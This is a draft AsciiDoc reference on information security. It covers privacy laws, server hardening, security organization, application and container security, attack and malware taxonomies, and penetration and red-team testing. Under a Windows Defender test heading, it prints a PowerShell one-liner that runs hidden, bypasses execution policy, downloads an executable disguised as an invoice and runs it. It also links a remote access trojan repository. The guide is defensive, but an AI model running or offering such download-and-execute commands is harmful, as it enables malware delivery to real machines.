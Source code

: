 = Information Security - A Comprehensive Reference
Doc Writer <ssharif@secunoid.com>
v1.23.06.18.01
:numbered:
:sectnum:
:sectnumlevels: 5
:chapter-label:
:toc: right
:toclevels: 5
:docinfo:
:docinfo1:
:docinfo2:
:description: This document covers all aspects of information security
:keywords: information security, cyber security, it security, data security, compliance, risk management, project management
:imagesdir: images
:stylesheet:
:homepage: https://www.secunoid.com
'''


<<<
== Author
https://www.linkedin.com/in/shahidsharif[Shahid Sharif]

== Overview
Everything in this world is centered around information, knowledge, which translates into a generic term _data_.  This data can be about individuals, places, or things.  Regardless of who or what it is about it is important to protect it.

There exist approximately 4,294,967,296 (four billion two hundred ninety-four million nine hundred sixty-seven thousand to hundred ninety-six) IPv4 Addresses.  This pool is 32-bits in size.  Scanning these addresses is an embarrassingly parallel workload and ca be easily distributed over any number of systems.  The term embarrassingly parallel simply means that little or no effort is needed to seperate this problem into a number of parallel tasks.  Password cracking and 3d video rendering are also examples o this type of problem.

=== Non-living Entities
Data about non living entities when modified leads to mis-information and currently in the digital age our ability to provide the authenticity of that data is very difficult.  If the source is trustworthy, then we deem it authentic, currently there are no mechanisms to ensure that the data has not been modified in between from when the trustworthy source released and to the time it got to you.

=== Living Entities
Data about living entities, especially us humans is very valuable.  With the devices we carry, and use in our daily lives, we are constantly producing data, every hour, every second of our lives. 

<<<
== What is information security?
The foundation of information security is based on three pillars also known as the *triad*

. Confidentiality
. Integrity
. Availability

== Why are they important?
What is the the topic of discussion, *Information Security* , there two key words here *information* and *security*, viz a viz securing information.

You have to condition yourself to always think about what protecting,  the *information*.  Once you get this concept the rest is easy.

Then think of how does this information move in the environment.  Information of any type goes through follwoing lifecycle stages, also knows as CRUD:

. Create
. Read
. Update
. Delete


The sections below will build upon them.

=== Confidentiality
NIST defines "Confidentiality" as Preserving authorized restrictions on information access and disclosure, including means for protecting personal privacy and proprietary information.

=== Integrity
NIST defines "Integrity" as Guarding against improper information modification or destruction, and includes ensuring information non-repudiation and authenticity.

=== Availability
NIST devines "Availability" as Ensuring timely and reliable access to and use of information.


<<<
== Privacy
Centralization has very damaging impacts to a users privacy.  Once the user has provided their information to an entity, they are at entities' mercy for data protection.

Certain states want to keep 

Data that is being processed by the solution should care fully considered for:

. Data protection: Based on data classification ensure data is protected in storage and in transit.
. Data retention: Based on regulatory, and industry requirements,  data should be retained for 
. Data access & update: Allow end users ability to access their data and modify it as required.

Governments across the world are responding to the global cyber security crisis by creating new regulations that govern the way companies handle and store valuable consumer data. This includes important information such as personal identifications, banking and credit card numbers, and purchase history.

=== GDPR
The European Union, in particular, has been a leader in this field. One of its pioneering efforts is the General Data Protection Regulations (GDPR) what was passed in 2016 and went into effect in Spring 2018. It impacts all companies that do business with European customers, regardless of where the company is located.

The GDPR requires that companies receive consent from consumers before processing data, collect and store data anonymously, and notify customers when their information has potentially been breached. It also requires large businesses to appoint a data privacy protection officer to oversee implementation of the regulations.

=== CCPA
Furthermore, while the U.S. federal government has yet to create a set of strong data privacy protections, several states have drawn up their legislation, including Hawaii, Massachusetts, Maryland, Mississippi, New Mexico, and Washington.

However, the most important of these regulations come from California, the largest state in the country by population with nearly 40 million residents. The California Consumer Privacy Act (CCPA) goes into effect on January 1, 2020, and governs the way companies must store and secure data.

CCPA allows consumers to demand crucial information about their personal data held by corporations.

When requested, businesses must inform consumers about the type of personal data they possess, provide them with specific personal information collected in the previous year, and allow customers to request that their information not be shared with third parties. Companies will also have to delete customer data when requested.

=== PIPL
On 1 November 2021, the new Personal Information Protection Law (PIPL) of the People’s Republic of China will enter into force. This law, adopted on 20 August 2021, is an omnibus privacy law that will apply to all organisations doing business in China or targeting people in China, and has major compliance consequences similar to GDPR.



<<<
== Data Protection

=== Methodology
. Define what to classify
. Define where to classify
. Define who applies classification
. Define conditions
. Assign labels to users and groups
. Define Access rights
. Create classification policies
. Test Classification policies
. Deploy classification policies
. Monitor and accelerate remediation

=== Know your data
. Where is my sensitive data 
located? 
. What are the risky activities happening in my organization – files shared externally, across 1st and 3rd party apps?
. I need to comply with a new regulation? Where is my PII data located & where is it being generated? 
. How do I control data sprawl and build a strategy for ROT before I bring data
. How do I see activity around classification and labeling across retention and sensitivity labels once they have been used across governance and retention outcomes?
. How do I monitor  ongoing risk around label activity?


=== Password Strength
Brute force password cracking - the importance of using a long password with a mix of uppercase, lowercase and special characters.

Assuming an attacker has a reasonably fast connection and PC, the table is an estimate of the amount of time it would take to generate every possible combination of passwords for a given number of characters. After generating the list it's just a matter of time before the computer runs through all the possibilities – or gets shut down trying.

Pay particular attention to the difference between using only lowercase characters and using all possible characters (uppercase, lowercase, and special characters – like @#$%^&*). Adding just one capital letter and one asterisk would change the processing time for an 8 character password from 2.4 days to 2.1 centuries.

via Dan Williams (https://www.linkedin.com/in/ACoAAACDV6ABaDOtrduFQ5p-c5qgSka1HHTseAY/?lipi=urn%3Ali%3Apage%3Ad_flagship3_feed%3BxdsE5HnqTDulyw2QOn9mCw%3D%3D)

image::PasswordLengthComplexityCrackingTime.jpg[]

<<<
== Logical Security
Logical controls are about physical aspects of the information protection.  The computer system is housed in a building in a particular area.  Depending on the sensitivity of the information various mechanisms are put in place like:

* Fenced building perimeter
* Gates at the entry and exit points
* Guards manning those gates to ensure that only authorized individuals are allowed through the gates

Now working through the layers just like peeling an onion. You have gone through the first layer the perimeter. Now once in the perimeter it has to be ensured:

* Ensuring protections are in place to prevent vehicles damaging the building via direct impacts
* Split the building into zones with different levels of access levels for the personnel and this can be gated & guarded area
* Ensure computer room is in the middle of the building without any window access
* The computer room can be split into zones depending on the sensitivity of the information
* Access to these zones can be gated and guarded
* Assets within these zone would be placed in cabinets that are again secured via lock and key

<<<
== Technical Security
Now that we have addressed the physical security aspects Once inside the computer room, this is where information security starts to take shape.  All the computers in the computer room will need to be accessed by the users.  People with different levels of access would be physically separated into specific areas.  For instance Super users were in a different physical space than regular users.

With the advent of networking,TCP/IP, and better access control mechanisms in operating systems that requirement to physically segregate users started to diminish.

That requirement to physically segregate users with different levels of access via gates and guards moved to the network and operating system level and this is where information security started to take a foot hold.

Applications that operated on top of the operating system implemented fine grained access mechanisms for the users.

The gates and guards started getting replaced by electronic locks with pin pads and cameras.  Whereby to prove that you were authorized to access an area, you would have the PIN to the door which you would use to get access.  

The PIN pads later got replaced by card access, where you had to scan your card to enter an area.

As you can see a lot of Physical Security controls are also moving into information security space whereby the cameras that are recording and the recording management software, the card access system and access management are all managed by applications that are operating on top of an operating system running on a computer system.

Enter Information Security, which at the most fundamental level is the basis for:

* Information Technology Security
* System Security
**  Network Security
**  Application Security
*** Database Security
* Cyber Security

This book will cover the various aspects of implementing an Information Security Program at an organization of any size. You don't have to be a huge organization to have an information security program.  If you are in business you are collecting, storing, and transmitting all kinds of information and it important that you know how to ensure that information is protected at all times.  If it is not then maybe your business might be at risk.

<<<
== Information Security Program

image::InformationSecurityProgram.png[]

=== Security Policy
Before any solution is implemented, a security policy must be created to ensure all the industry, regulatory,  and other compliance requirements are documented.  This document will provide the security requirements to ensure the deployment is secure. All the requirements should be very high level without delving into implementation details.

=== Security Metrics
To ensure the success of a information security program, following metrics should be tracked over at least a year.

Most Important ones at the top

* Asset Count
** Access Points
** Cameras
** Domains
** Sub-domains
** Servers
** Laptops
** Desktops
** Switches
** Routers
** Firewalls
** Printers
* AD Asset Counts
** User accounts
** Application Accounts
** Computer Accounts
** Groups
** Mailboxes
* Patching
** OS Patching
** Application Patching
* Active Threat Metrics
** Mean Time To Detect Threats
** Mean Time To Respond To Threats
** Malware Blocked
** Malware Allowed
** Phishing Blocked
** Phishing Allowed
** DDOS Attacks Prevented


<<<
=== Security Manual
This document goes into details on the how the security policy requirements must be implemented.  It can be one document, or multiple depending on the size of implementation.

<<<
=== Security Standards
Standards are mandatory requirements that must be adhered to. Some of the standards to be considered are:

==== Windows Web Server Hardening

*Services*

* Unnecessary Windows services are disabled.
* Services are running with least-privileged accounts.
* FTP, SMTP, and NNTP services are disabled if they are not required.
* Telnet service is disabled.

*Protocols*

* WebDAV is disabled if not used by the application OR it is secured if it is required.
* TCP/IP stack is hardened
* NetBIOS and SMB are disabled (closes ports 137, 138, 139, and 445).

*Accounts*

* Unused accounts are removed from the server.
* Guest account is disabled.
* IUSR_MACHINE account is disabled if it is not used by the application.
* If your applications require anonymous access, a custom least-privileged anonymous account is created.
* The anonymous account does not have write access to Web content directories and cannot execute command-line tools.
Strong account and password policies are enforced for the server.
* Remote logons are restricted. (The “Access this computer from the network” user-right is removed from the Everyone group.)
* Accounts are not shared among administrators.
* Null sessions (anonymous logons) are disabled.
* Approval is required for account delegation.
* Users and administrators do not share accounts.
* No more than two accounts exist in the Administrators group.
* Administrators are required to log on locally OR the remote administration solution is secure.

*Files and Directories*

* Files and directories are contained on NTFS volumes
Web site content is located on a non-system NTFS volume.
* Log files are located on a non-system NTFS volume and not on the same volume where the Web site content resides.
* The Everyone group is restricted (no access to \WINNT\system32 or Web directories).
* Web site root directory has denied write ACE for anonymous Internet accounts.
* Content directories have deny write ACE for anonymous Internet accounts.
* Remote  administration application is removed
* Resource kit tools, utilities, and SDKs are removed.
* Sample applications are removed

*Shares*

* All unnecessary shares are removed (including default administration shares).
* Access to required shares is restricted (the Everyone group does not have access).
* Administrative shares (C$ and Admin$) are removed if they are not required (Microsoft Management Server (SMS) and Microsoft Operations Manager (MOM) require these shares).

*Ports*

* Internet-facing interfaces are restricted to port 80 (and 443 if SSL is used)
* Intranet traffic is encrypted (for example, with SSL) or restricted if you do not have a secure data center infrastructure.

*Registry*

* Remote registry access is restricted.
* SAM is secured (HKLM\System\CurrentControlSet\Control\LSA\NoLMHash).

*Auditing and Logging*

* Failed logon attempts are audited.
* IIS log files are relocated and secured.
* Log files are configured with an appropriate size depending on the application security requirement.
* Log files are regularly archived and analyzed.
* Access to the Metabase.bin file is audited.
* IIS is configured for W3C Extended log file format auditing.

*Server Certificates*

* Ensure certificate date ranges are valid.
* Only use certificates for their intended purpose (For example, the server certificate is not used for e-mail).
* Ensure the certificate’s public key is valid, all the way to a trusted root authority.
* Confirm that the certificate has not been revoked.

<<<
=== Security Guidelines



<<<
== Organizational Structure
You can have the best security organization, however, if you do not have security embedded in Project Delivery, Vendor Management, Change Management, and Operations then it becomes to enforce security.


<<<	
=== Security Organization
For Security to be taken seriously a security organization is mandatory, while the non operational team would report to the CISO, the operational structure can be based on two models:

* Centralized
* Distributed

In centralized operational model, all aspects of security operations are within the security organization, such as:

* User provisioning/de-provisioning
* Security Information & Event Management (SIEM)
* Security Operations Center
* Incident Response
* Firewall & Network Operations

In a decentralized operations model, the above aspects are managed by different business units with the security organization providing oversight in form of GRC.

==== Reporting to CEO (Ideal)
image::CyberSecurityOrganization-27Dec2018-v03-Ideal.png[]

==== Reporting to CFO
image::CyberSecurityOrganization-27Dec2018-v03-CFO.png[]

==== Reporting to CIO
image::CyberSecurityOrganization-27Dec2018-v03-CIO.png[]

==== Reporting to CtO
image::CyberSecurityOrganization-27Dec2018-v03-CTO.png[]

==== Security Operations
A robust mechanism must be instituted to ensure all systems are baselined and any deviation from the baseline is reported to the SOC  for action.
All critical components must be monitored at all times, and SIEM   leveraged to discover anomalies and ensure they are addressed in a timely fashion.

==== Security Architecture

==== Security Development

==== Security Strategy


<<<

== Cryptography

Cryptographic Blinding

<<<
== Digital Identity

Digital Identity is a bridge that connects the physical and the digital world.  You can call them Personna's in a digital world.

Cost of financial intermediation is been going up due to regulation.

According to Europol we are spending about $20b to intercept 0.15% of the fraudulent flows of money.

<<<
== Training & Education

=== Phishing

==== GoPhish
An opensource toolkit to generate phishing campaigns for organizations to test their employee phishing knowledge
Link: https://github.com/gophish/gophish/releases/


<<<
== Application Security
Application Security is one of the key areas that need a lot of attention.  A successful application security program ensures that during the lifecycle of the code development and deployment following mechanisms are considered:

. SAST - Static Application Code Analysis
. DAST - Dynamic Application Code Analysis

followed by at least an annual Penetration Testing exercise, where a human being attempts to break the application using various mechanisms that only a human being can manage.

SAST & DAST complement each other, one does not replace the other.


=== Static Code Analysis (SAST)
Static application security testing (SAST), or static analysis, is a testing methodology that analyzes source code to find security vulnerabilities that make your organization’s applications susceptible to attack. SAST scans an application before the code is compiled. It’s also known as white box testing.

==== Operational Benefits
SAST takes place very early in the software development life cycle (SDLC) as it does not require a working application and can take place without code being executed. It helps developers identify vulnerabilities in the initial stages of development and quickly resolve issues without breaking builds or passing on vulnerabilities to the final release of the application.

SAST tools give developers real-time feedback as they code, helping them fix issues before they pass the code to the next phase of the SDLC. This prevents security-related issues from being considered an afterthought. SAST tools also provide graphical representations of the issues found, from source to sink. These help you navigate the code easier. Some tools point out the exact location of vulnerabilities and highlight the risky code. Tools can also provide in-depth guidance on how to fix issues and the best place in the code to fix them, without requiring deep security domain expertise.

Developers can also create the customized reports they need with SAST tools; these reports can be exported offline and tracked using dashboards. Tracking all the security issues reported by the tool in an organized way can help developers remediate these issues promptly and release applications with minimal problems. This process contributes to the creation of a secure SDLC.

It’s important to note that SAST tools must be run on the application on a regular basis, such as during daily/monthly builds, every time code is checked in, or during a code release.

==== Security Benefits
Developers dramatically outnumber security staff. It can be challenging for an organization to find the resources to perform code reviews on even a fraction of its applications. A key strength of SAST tools is the ability to analyze 100% of the codebase. Additionally, they are much faster than manual secure code reviews performed by humans. These tools can scan millions of lines of code in a matter of minutes. SAST tools automatically identify critical vulnerabilities—such as buffer overflows, SQL injection, cross-site scripting, and others—with high confidence. Thus, integrating static analysis into the SDLC can yield dramatic results in the overall quality of the code developed.



=== Dynamic Code Analysis (DAST)


=== Penetration Testing
This testing has to be done by a human being to mimic a hacker performing the activities as they normally would.

==== Microsoft Application Inspector
Microsoft Application Inspector is a software source code analysis tool that helps identify and surface well-known features and other interesting characteristics of source code to aid in determining what the software is or what it does. It has received attention on ZDNet, SecurityWeek, CSOOnline, Linux.com/news, HelpNetSecurity, Twitter and more and was first featured on Microsoft.com.

Application Inspector is different from traditional static analysis tools in that it doesn't attempt to identify "good" or "bad" patterns; it simply reports what it finds against a set of over 400 rule patterns for feature detection including features that impact security such as the use of cryptography and more. This can be extremely helpful in reducing the time needed to determine what Open Source or other components do by examining the source directly rather than trusting to limited documentation or recommendations.

The tool supports scanning various programming languages including C, C++, C#, Java, JavaScript, HTML, Python, Objective-C, Go, Ruby, PowerShell and more and can scan projects with mixed langauge files. It also includes HTML, JSON and text output formats
Link: https://github.com/microsoft/ApplicationInspector

==== PEpper
An open source tool to perform malware static analysis on Portable Executable
Link: https://github.com/Th3Hurrican3/PEpper


=== Key & Secrets Management
Credentials/Key should never be stored within source code in clear text.  Hence the use of Key Vaults is suggested.

<<<
== System Security
All the servers that the distributed ledger platform runs on must be:

. Hardened
. Monitored for availability
. Intrusion Detection/Intrusion Protection mechanisms deployed to protect from attacks coupled with SIEM for proactive defense.
. Based on the security be in a DMZ 

<<<
== Security-as-Code

Process:

. Test the source code
. Test the code's execution
. Test the app's infrastructure
. Test the Infrastructure as Code
. Monitor and protect access to "the app" and its data
. Secure the software factory itself

Policy considerations

. What gets tested? Fail build with critical vulns?
. Who can approve exceptions?
. Frequency of testing
. Are containers and packages scanned?
. Who reviews configurations?
. Are templates required/enforced?
. How is IaC testing and protection incorporated?
. Who reviews/approves?
. Inspecting E-W and N-S traffict/from containers, clusters, and pods
. Separation of duties?
. Common controls

<<<
== Container Security
A container is a way to package application with all the necessary dependencies and configuration.  It is a portable artifact, easily shared and moved around.  Makes development and deployment more efficient.

Containers are layers of images.  Mostly Linux Base Image, because of small size.  Application goes on top.

=== Container Environment
A container environment consists of components that increase your attack surface.

. Images
.. Keep updated at all times
.. Sign
. Image Registry
.. Private
.. Monitor the registry
.. Registry host server is secure
. Runtime
.. Good application security
.. Monitor network protocols
.. Monitor network payloads
.. Monitor the host
. Orchestration Platforms: manage container lifecycle (Kubernetes, Docker, OCP)
.. Set limits on provileged users
.. Set limits on amounts of privilege you provide
.. Host running the orchestration platform
. Host OS that manages the Docker Daemon and Docker Client
.. Selinux
.. Access control
.. Monitor

=== Container Scanners
DockerBench tests containers
OpenSCAP
aqua
synk
sysdig

=== Container Monitoring
Prometheus

=== Firewall
Cilium

=== Kubernetes
How do I run my workloads securely in Kubernetes to:

. Code frum untrusted registries
. Vulnerabilities in tools of OS or code libraries
. Bloated Base Images

Prevent it by:

. Use approved lean images
. Create list of trusted registires
. Image Scanning
. Do not run containers with root
. Avoid running privileged pods
. Set limits on cluster resources for containers
.. Resource Quota, limits the number of resources or capacity of resources granted
..
. Secure Communication between pods
.. Network Policies
.. Firewalls for Pods
.. Namespaces, keep resources and teams seperate from each other
.. Service Mesh, takes the logic of communication between services from app code to network layer
... mTLS
... Communication Rules
. Securing Secrets Data
.. Do not use as environment vars or hard coded
.. By Default, secret data is stored in plaintext in etcd
... Restrict access to etcd data
... Encrypt etcd backups
... Run & Manage etcd outside the cluster
.. K8s supports encryption at rest
.. Use tools like HashiCorp Vault
. Securing Access to K8s cluster
.. Authentication
... Certificates in Kubernetes
... Client certificates for human users
... Service Accounts for non-human users
. Securing Access t K8s cluster
.. Do not use NodePort
.. LoadBalancer is better
.. Ingress - even better



Prometheus container should not be running as root.

<<<
== Vulnerability Management Program
Red team-blue team exercises take their name from their military antecedents. The idea is simple: One group of security pros — a red team — attacks something, and an opposing group — the blue team — defends it. Originally, the exercises were used by the military to test force-readiness.

=== Deep vs Dark Web
Dark web is every resource where hackers & criminal underground engage with each other.  Tor is a mechanism that is used as a transport for the dark web.

image::DeepWebDarkWeb.jpeg[]

Source: https://heimdalsecurity.com/blog/deep-web-vs-dark-web-what-is-each/ 


=== Pastebin

=== Taxonomy
Taxonomy is important as it ensures industry standard terms are used when talking about vulnerabilities, threat actors, and reporting.

==== Attacks

image::TypesOfAttacks.jpg[]

===== Social Engineering Attacks
* *Phishing* The perpatrator send an email or text to the target, seeking valuable information

* *Vishing* The perpatrator makes a fradulent phone calls to the target, seeking valuable information

* *Baiting* Baiting attacks use a false promise to pique a victims's curiosity.  They lure users into a trap that steals their personal information.

* *Quid pro quo* The perpatratpr makes random calls to a company's employees offering a service or a benefit in exchange for information or access

* *Pretexting* It is often initiated by a perpatrator pretending to need sensitive information from a victim so as to perform a critical task.  The success rate of this attack heavily depends on the attackers ability to build trust.

* *Watering Hole* The perpetrator injects malicious code into the web pages that the targets visit.  Once a victim visits the page on the compromised website, a backdoor Trojan is installed on thier computer.

==== Malware
A malware is any piece of software that was written with the intent of damaging devices, stealing data, and generally causing a mess. Viruses, Trojans, spyware, and ransomware are among the different kinds of malware.

Malware is often created by teams of hackers: usually, they’re just looking to make money, either by spreading the malware themselves or selling it to the highest bidder on the Dark Web. However, there can be other reasons for creating malware too — it can be used as a tool for protest, a way to test security, or even as weapons of war between governments.

image::TypesOfMalware.jpg[]

* *Adware* Though not always malicious in nature, aggressive advertising software can undermine your security just to serve you ads — which can give other malware an easy way in. Plus, let’s face it: pop-ups are really annoying.

* *Bots* Bots is a soft for roBot. Bots are usually controlled remotely and work as a network.

* *Keylogger* It is one of the most dangerous threats to a PC user's privacy. This type of malware installs itself as a result of clicking while browsing the Internet or downloading software. Keyloggers keep track of all of your keystrokes when you are using your PC and then transfers the information to a remote server. It is capable of recording all of your online conversations, emails, and password logins, as well as creating screenshots of all of your PC activity.

Keyloggers are not always in the form of malware or software; it can also be installed on your computer in the form of hardware through being placed between the plug on your keyboard and the entry port. Some keyloggers are legitimate applications such as those that record an employee's PC activity during work hours. Other keyloggers are in the form of malicious software that is designed to perform criminal activity.

* *Ransomware* This kind of malware typically locks down your computer and your files, and threatens to erase everything unless you pay a ransom.

* *Remote Access*

* *Rootkit*

* *Spyware* No surprise here — spyware is malware designed to spy on you. It hides in the background and takes notes on what you do online, including your passwords, credit card numbers, surfing habits, and more.

* *Trojans* This kind of malware disguises itself as legitimate software, or is hidden in legitimate software that has been tampered with. It tends to act discreetly and create backdoors in your security to let other malware in.

* *Virus* Like their biological namesakes, viruses attach themselves to clean files and infect other clean files. They can spread uncontrollably, damaging a system’s core functionality and deleting or corrupting files. They usually appear as an executable file (.exe)

* *Worm* Worms infect entire networks of devices, either local or across the internet, by using network interfaces. It uses each consecutively infected machine to infect others.

=== Vulnerability Assessment
Vulnerability Assessment is designed to find vulnerabilities and assess to ensure they are not false positives. The next step is to remediate the vulnerability by patching the system, reconfiguring it, or implementing other controls to reduce the risk. 

=== Penetration Testing
Penetration testing, or pen testing for short, is an authorized attack against your computer system to discover and exploit vulnerabilities.  This activity is also known as ethical hacking.  

Penetration testing is a technical control that is implemented to ensure the systems that are currently in production or are going to be production do not have any vulnerabilities that would allow threat vectors to exploit.

The Penetration Testing Execution Standard (PTES) provides the necessary guidelines on how to conduct penetration testing.  More information can be found here: http://www.pentest-standard.org/index.php/Main_Page 

Penetration Testing goes further than vulnerability assessment.  After a vulnerability is identified, the tester attempts to exploit a vulnerability. This can be done numerous ways and, once a vulnerability is exploited, a good tester will not stop. They will continue to find and exploit other vulnerabilities, chaining attacks together, to reach their goal. Each organization is different, so this goal may change, but usually includes access to Personally Identifiable Information (PII), Protected Health Information (PHI), and trade secrets. Sometimes this requires Domain Administrator access; often it does not or Domain Administrator is not enough.

Penetration testing involves following steps:
. Reconnaissance via open source intelligence (OSINT) gathering techniques.  IT does not involve probing any or your devices, but gathering as much information publicly available about your environment using internet sources. 
. Scanning your network to identify active devices
. Fingerprint active devices to identify operating system and applications installed
. Find vulnerabilities for the services running on your systems
. Exploiting those vulnerabilities
. Once the vulnerability has been exploited, further probing the system to seek valuable information such as PII (Personally Identifiable Information) etc.
. Try to further explore other systems on the network and exploit them if possible.
. Produce a report that identifies vulnerabilities, which ones were exploited, what was the outcome of exploitation and suggest high level remediation steps.

There are three approaches to Penetration Tests:
. Black Box: No knowledge of th infrastructure.
. White Box: Full knowledge of the infrastructure.
. Grey Box: Some knowledge of the infrastructure.

Penetration Tests can include following scopes:
. External
. Internal
. Web application
. Wireless
. Cloud
. Social

I have created a seperate document listing some of the https://github.com/secunoid/InformationSecurity/blob/master/PenetrationTestingTools.adoc[Penetration Testing Tools] that we have used.

==== Pentest Program
Establish a Pentest Program to ensure full coverage of assets and identify the depth of coverage needed for each asset.


==== Red team Assessment
A Red Team Assessment is similar to a penetration test in many ways but is more targeted. The goal of the Red Team Assessment is NOT to find as many vulnerabilities as possible. The goal is to test the organization's detection and response capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible. The Red Team Assessment emulates a malicious actor targeting attacks and looking to avoid detection, similar to an Advanced Persistent Threat (APT). (Ugh! I said it…) Red Team Assessments are also normally longer in duration than Penetration Tests. A Penetration Test often takes place over 1-2 weeks, whereas a Red Team Assessment could be over 3-4 weeks or longer, and often consists of multiple people.

A Red Team Assessment does not look for multiple vulnerabilities but for those vulnerabilities that will achieve their goals. The goals are often the same as the Penetration Test. Methods used during a Red Team Assessment include Social Engineering (Physical and Electronic), Wireless, External, and more. A Red Team Assessment is NOT for everyone though and should be performed by organizations with mature security programs. These are organizations that often have penetration tests done, have patched most vulnerabilities, and have generally positive penetration test results.

The Red Team Assessment might consist of the following:

A member of the Red Team poses as a Fed-Ex delivery driver and accesses the building. Once inside, the Team member plants a device on the network for easy remote access. This device tunnels out using a common port allowed outbound, such as port 80, 443, or 53 (HTTP, HTTPS, or DNS), and establishes a command and control (C2) channel to the Red Team's servers. Another Team member picks up the C2 channel and pivots around the network, possibly using insecure printers or other devices that will take the sights off the device placed. The Team members then pivot around the network until they reach their goal, taking their time to avoid detection.

This is just one of innumerable methods a Red Team may operate but is a good example of some tests we have performed.

* Offensive Security
* Ethical Hacking
* Exploiting Vulnerabilities
* Penetration Testing
* Black Box Testing
* Social Engineering
* Web App Scanning

===== Red Team Resources

. https://www.hackingarticles.in/red-teaming/ 

====== Remote Access Trojan (RAT)
Link: https://github.com/b4rtik/RedPeanut


==== Blue Team Assessment
Blue team assessment is usually a test of the teams' ability to identify and defend the network while under attack by the Red Teams/Penetration Tester/Hacker.

* Defensive Security
* Infrastructure Protection
* Damage Control
* Incident Response
* Operational Security
* Threat Hunters
* Digital Forensics

===== Powershell to test Windows Defender

	powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'

==== Purple Team
* Collaborative Security
* Reand & Blue Teams Function Together
* Cooperate to improve/test detection
* Vulnerability Scanning & Pen Testing

==== Methods
social engineering, phishing, vishing or simply posing as a company employee.

=== Threat Modeling
Threat modeling is a process by which potential threats, such as structural vulnerabilities can be identified, enumerated, and prioritized – all from a hypothetical attacker’s point of view. The purpose of threat modeling is to provide defenders with a systematic analysis of the probable attacker’s profile, the most likely attack vectors, and the assets most desired by an attacker. Threat modeling answers the questions “Where are the high-value assets?” “Where am I most vulnerable to attack?” “What are the most relevant threats?” “Is there an attack vector that might go unnoticed?

It is a structured approach that enables you to identify, quantify, and address the security risks associated with an application. Threat modeling is not an approach to reviewing code, but it does complement the security code review process.

Some great information here  https://www.threatmodelingmanifesto.org/[Threat Modeling Manifesto]

==== Threat Scoring and Databases

===== CVSS
CVSS stands for Common Vulnerability Scoring System, which provides a score to indicate the severity of the CVE vulnerabilities.

Assignment of a CVSS score is based on:

* The primary impact on the confidentiality, integrity, and availability of the protected system/resources
* The derivative impact on loss of life and/or properties
* The percentage of the impacted area within the total environment
* How easy it is to exploit the vulnerability
* How easy it is to remediate the vulnerability
* How confident the testing team is about the existence of the vulnerability

===== NVD
